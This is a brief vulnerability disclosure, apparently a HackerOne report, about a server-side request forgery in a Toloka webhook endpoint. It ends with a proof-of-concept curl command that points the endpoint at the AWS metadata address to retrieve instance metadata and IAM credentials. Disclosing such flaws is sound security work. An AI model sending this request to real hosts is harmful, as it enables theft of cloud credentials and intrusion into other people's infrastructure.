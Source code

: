 # Critical SSRF Vulnerability in Toloka AI

**Report ID:** #3090616  
**Disclosed via:** HackerOne  
**Researcher:** [@elyasroot](https://hackerone.com/elyasroot)  
**Impact:** AWS metadata exposure & IAM credential leakage (CVSS: 9.1)  

---

## Summary

A critical Server-Side Request Forgery (SSRF) vulnerability was discovered in the `/webhook` endpoint of `framer-components.toloka.cloud`, allowing unauthenticated attackers to query internal AWS metadata services and extract sensitive information, including IAM credentials.

---

## Proof of Concept (PoC)

```bash
curl -i "https://framer-components.toloka.cloud/webhook?url=http://169.254.169.254/latest/meta-data"
